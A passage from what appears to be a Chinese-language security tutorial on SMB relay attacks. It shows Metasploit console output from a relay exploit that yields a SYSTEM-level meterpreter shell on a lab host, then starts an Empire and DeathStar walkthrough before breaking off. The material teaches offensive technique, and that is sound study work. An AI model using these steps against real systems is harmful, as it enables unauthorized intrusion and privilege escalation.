 ```bash
[*] Closing service handle...
[*] Opening service...
[*] Starting the service...
[*] Removing the service...
[*] Sending stage (179779 bytes) to 192.168.188.128
[*] Closing service handle...
[*] Deleting \hGaRjHmf.exe...
```

然后直接 getshell，还是 system 权限，因为调用了系统服务：

```bash
msf exploit(windows/smb/smb_relay) > sessions 
Active sessions
===============
  Id  Name  Type                     Information                            Connection
  --  ----  ----                     -----------                            ----------
  1         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ X-90E984B4C76D4  192.168.188.136:4444 -> 192.168.138.188:1034 (192.168.188.128)
```

##### Empire

我们也可以使用 Empire 来进行 SMB 中继攻击测试，具体步骤如下所示：  
Step 1：启动 Empire 并清除 agent

```bash
./empire --rest --username username --password 123456
```

[![](assets/1701222524-ba60e14f5a953a1fdb21b17fe5c0e6b1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128144524-b55fac34-8db9-1.png)  
Step 2：启动 Deathstar，ip 为攻击机 ip，为了接管 agent
